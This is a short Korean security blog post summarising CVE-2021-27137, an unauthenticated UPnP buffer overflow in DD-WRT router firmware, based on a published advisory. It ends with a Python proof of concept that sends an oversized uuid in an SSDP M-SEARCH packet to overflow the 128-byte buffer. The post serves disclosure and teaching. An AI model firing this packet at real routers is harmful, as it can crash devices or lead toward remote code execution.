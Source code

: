 ```yaml
---
title: "[하루한줄] CVE-2021-27137: DD-WRT UPNP Buffer Overflow"
author: insu
tags: [insu, cve, dd-wrt, bof]
categories: [1day1line]
date: 2021-03-25 18:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[SSD Advisory – DD-WRT UPNP Buffer Overflow](https://ssd-disclosure.com/ssd-advisory-dd-wrt-upnp-buffer-overflow/)

## Target

- DD-WRT

## Explain
리눅스 기반의 무선 라우터 및 액세스 포인트 펌웨어인 DD-WRT에서 인증되지 않은 사용자가 버퍼 오버플로우를 통해 Code Execution을 할 수 있는 취약점이 발견되었습니다.

Universal Plug and Play(UPNP)는 컴퓨터, 프린터, 인터넷 게이트웨이, 와이파이 access point, 모바일 장치와 같은 네트워크 장치들이 네트워크에서 서로를 탐색하고 네트워크 서비스 기능을 제공하는 네트워크 프로토콜입니다. 기본 설정에서 DD-WRT의 UPNP는 비활성화되어 있습니다. UPNP는 UDP 형식의 인증되지 않은 프로토콜로 DD-WRT에 UPNP 서비스가 활성화된 경우 DD-WRT의 LAN에 있는 해커가 큰 크기의 `uuid` 값을 전송하여 버퍼 오버플로우를 트리거할 수 있습니다. 취약점이 존재하는 `ssdp.c` 코드는 다음과 같습니다.

![img](https://ssd-disclosure.com/wp-content/uploads/2021/03/image-1024x590.png)

name 버퍼의 크기는 128 bytes이지만, 데이터를 복사할 때 데이터 크기 값에 대한 검증이 존재하지 않아서 버퍼 오버플로우가 발생합니다. 해당 취약점의 POC는 아래와 같습니다.

```python
import socket
target_ip = "192.168.15.124" # IP Address of Target
off = "D"*164
ret_addr = "AAAA" 
payload = off + ret_addr
packet = \
    'M-SEARCH * HTTP/1.1\r\n' \
    'HOST:239.255.255.250:1900\r\n' \
    'ST:uuid:'+payload+'\r\n' \
    'MX:2\r\n' \
    'MAN:"ssdp:discover"\r\n' \
    '\r\n'
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM, socket.IPPROTO_UDP)
s.sendto(packet.encode(), (target_ip, 1900) )
```

